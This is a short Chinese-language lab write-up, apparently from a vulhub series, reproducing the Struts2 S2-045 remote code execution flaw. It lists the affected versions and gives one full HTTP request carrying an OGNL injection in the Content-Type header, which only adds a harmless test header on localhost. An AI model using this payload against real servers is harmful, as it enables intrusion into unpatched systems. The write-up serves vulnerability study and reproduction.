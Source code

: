 # Struts2_045_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令

​			影响版本

  		2.3.5 - 2.3.31  2.5 - 2.5.10 

### 0x02漏洞复现

#### payload1(RCE)：

POST / HTTP/1.1 Host: localhost:8080 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.8,es;q=0.6 Connection: close Content-Length: 0 Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data



​			**登录界面**

![S2_045_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_045_rce_1.jpg)

​			**Burpsuite改包重放，有回显，发现OGNL表达式被执行**

![S2_045_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_045_rce_2.jpg)

​			**利用Struts2漏洞检查工具**

![S2_045_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_045_rce_3.jpg)



### 0x03参考资料

https://blog.csdn.net/isinstance/article/details/61193987

